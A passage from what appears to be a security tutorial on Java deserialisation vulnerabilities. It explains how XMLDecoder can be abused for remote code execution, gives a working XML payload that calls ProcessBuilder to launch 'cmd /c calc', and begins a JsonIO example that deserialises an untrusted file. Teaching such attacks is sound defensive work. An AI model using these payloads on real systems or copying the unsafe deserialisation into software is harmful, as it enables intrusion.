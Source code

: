 ```java
            return height;
        }
        public void setHeight(int height) {
            this.height = height;
        }    
    }
}
```

The application mainly try to instantiate the same object class we saw in the previous example, by loading it from an external XML file. Instead of an XML parsing routing, the `readObject()` is called from the `XMLDecoder` class.

As we already know, the general concept behind deserialisation is to trick the application into loading arbitrary object, in a way we can use them to execute arbitrary code. So in this case, how can we exploit this situation to achieve RCE?

The task is simple, we just need to tell the application to load well know classes used by java to interact with the OS, such as `java.lang.Runtime` or `java.lang.ProcessBuilder`. By using this classes, the application would kindly start new processes for us. An example payload would be the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_241" class="java.beans.XMLDecoder">
 <void class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="3">
          <void index="0">
              <string>cmd</string>
          </void>
          <void index="1">
              <string>/c</string>
          </void>
          <void index="2">
              <string>calc</string>
          </void>
      </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

**JSON**

Of course, JSON format is not free from this kind of vulnerability. The main problem with JSON, however, is that quite a lot of libraries exist for JAVA which supports automatic serialization/deserialization. The one I will took as example is JsonIO. 

The code for the deserializer is following:

```java
public class DesertJSON {
     
    public static void main(String[] args) throws Exception {

        // Read JSON as a string
        String json = new String(Files.readAllBytes(Paths.get("desert.json")));
        // Deserialising        
        Object desert = JsonReader.jsonToJava(json);

        System.out.println("The desert: " + ((Desert)desert).getName());
        System.out.println("Has a surface of: " + String.valueOf(((Desert)desert).getWidth()*((Desert)desert).getHeight()) );
    }
     
    public static class  Desert {
```